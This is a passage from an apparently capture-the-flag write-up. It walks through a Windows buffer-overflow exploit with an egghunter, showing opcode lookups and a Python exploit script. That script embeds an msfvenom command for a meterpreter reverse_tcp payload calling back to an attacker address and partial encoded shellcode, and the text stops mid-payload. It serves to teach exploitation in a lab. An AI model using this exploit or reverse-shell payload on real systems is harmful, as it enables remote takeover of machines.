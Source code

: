 I'll align the stack first by pushing and popping the `EAX` value into `ESP`. To find the opcode for this I used `nasm_shell.rb` from Metasploit:

```
# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb 
nasm > push eax
00000000  50                push eax
nasm > pop esp
00000000  5C                pop esp
```

Edit: In retrospect I don't this part was required for this exploit, the exploit should have worked anyways because it doesn't push/pop stuff off the stack.

Since I don't have much buffer space to work with I'll use a 32 bytes egghunter. Basically the egghunter is a small shellcode that looks for a marker (the egg) in memory and jumps to it when it finds it. This is the first stage of the exploit, the 2nd stage will be the rest of the shellcode we want to execute and we'll need to place it in memory with another HTTP request. Mona can generate the code for the egghunter. By default it uses the string `w00t` for the egg.

![](/assets/images/htb-writeup-bighead/exploit/egghunter.png)

The first stage payload is:
- Align stack
- Egghunter shellcode
- JMP EAX

The second stage payload is:
- w00tw00t (egg)
- meterpreter payload

The exploit tested locally on my Win7 VM is shown here:

```python
#!/usr/bin/python

from pwn import *

'''
# msfvenom -p windows/meterpreter/reverse_tcp -b \x00\x0a\x0d -f python LHOST=172.23.10.39 LPORT=80
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 368 (iteration=0)
x86/shikata_ga_nai chosen with final size 368
Payload size: 368 bytes
Final size of python file: 1772 bytes
'''

egg = "\x77\x30\x30\x74" # w00t
payload = egg + egg
payload += "\xbf\x33\x30\xf9\x54\xdd\xc2\xd9\x74\x24\xf4\x5a\x29"
payload += "\xc9\xb1\x56\x31\x7a\x13\x83\xea\xfc\x03\x7a\x3c\xd2"
payload += "\x0c\xa8\xaa\x90\xef\x51\x2a\xf5\x66\xb4\x1b\x35\x1c"
payload += "\xbc\x0b\x85\x56\x90\xa7\x6e\x3a\x01\x3c\x02\x93\x26"
payload += "\xf5\xa9\xc5\x09\x06\x81\x36\x0b\x84\xd8\x6a\xeb\xb5"
payload += "\x12\x7f\xea\xf2\x4f\x72\xbe\xab\x04\x21\x2f\xd8\x51"
payload += "\xfa\xc4\x92\x74\x7a\x38\x62\x76\xab\xef\xf9\x21\x6b"
payload += "\x11\x2e\x5a\x22\x09\x33\x67\xfc\xa2\x87\x13\xff\x62"
```